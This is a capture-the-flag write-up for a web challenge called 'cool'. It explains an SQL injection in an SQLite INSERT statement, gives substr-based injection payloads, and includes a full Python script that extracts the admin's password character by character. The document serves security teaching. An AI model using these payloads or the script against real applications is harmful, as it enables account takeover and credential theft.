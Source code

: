# web/cool (123 points)
**Description :** *Aaron has a message for the cool kids. For support, DM BrownieInMotion. [cool.mc.ax](https://cool.mc.ax/)*

**Given files :** *[app.py](https://static.redpwn.net/uploads/e03916d52bb7e84cbd2f9f26e5de162fdd0442c40d8397a103aab5813031fd83/app.py)*

### Write-up :

The code on line 49 is vulnerable to an SQL injection attack:
```
	execute(
		'INSERT INTO users (username, password)'
		f'VALUES (\'{username}\', \'{password}\');'
	)
```

`username` must be strictly alphanumeric thanks to the check on line 38 (`if any(c not in allowed_characters for c in username):`), so our payload must go in `password`.

Our payload has a few constraints:
- `password` may be no longer than 50 characters
- `username` must not already exist in the database
- `execute()` will error if passed more than one query, so our attack must use the same `INSERT INTO` query

Let's first take a look at sqlite's `INSERT` syntax:

![file](images/INSERT.png)

My first attempt was to try to use an `upsert-clause` to change the password of the ginkoid user, however, the shortest payload I could find to do this was:
```
'),('ginkoid','') ON CONFLICT DO UPDATE SET password='';--
```
which is 8 characters over our limit, which won't do.

I instead decided to go down the route of bruteforcing the password one character at a time.

I wanted to create a new user, whose password was a single character from ginkoid's password. This would allow me to bruteforce only this character. We can see that the values for the password are `expr`s, so let's take a look at the syntax for that:

![file](images/expr.png)

The parts I am interested in are the `select-stmt`s, as these will let me extract characters from ginkoid's password. This led me to the payload:

```
'||(SELECT substr(password,<index>,1) FROM users));--
```

The `SELECT` statement will take the character at `index` in ginkoid's password, and concatenate it with `''`, to be used as the new user's password. We can then try logging in as our new user with every character in `allowed_characters` as the password. If we login successfully, then we know that we guessed the character correctly. Repeating this for all 32 characters gives us our password.

The full exploit script can be found below:

```py
import requests
import re

s = requests.Session()

def register(username, password):
	req = {'username': username, 'password': password}
	page = s.post('https://cool.mc.ax/register', data=req)

	if 'You are logged in!' not in page.text:
		print(f'failed to register username: {username}')
		print(page.text)
		exit(1)

def logout():
	s.get('https://cool.mc.ax/logout')

def login(username, password):
	logout()
	req = {'username': username, 'password': password}
	page = s.post('https://cool.mc.ax/', data=req)
	return 'You are logged in!' in page.text

def make_username(user):
	username = 'myaccountJ' + str(user)
	return username.replace('0', 'X')

def bruteforce_char(i):
	pswd = f"'||(SELECT substr(password,{i+1},1) FROM users));--"
	register(make_username(i), pswd)

	allowed_characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789'
	for c in allowed_characters:
		success = login(make_username(i), c)
		if success:
			print(c)
			return c
	
	print(f"ERROR: UNABLE TO BRUTEFORCE CHARACTER AT INDEX {i}")
	exit(1)

def main():
	computed_pswd = ''

	for i in range(32):
		computed_pswd += bruteforce_char(i)

	print(f"password: {computed_pswd}")

	req = {'username': 'ginkoid', 'password': computed_pswd}
	page = s.post('https://cool.mc.ax/', data=req)
	print(re.findall("flag\{[ -z|~]+\}", page.text)[0])

main()
```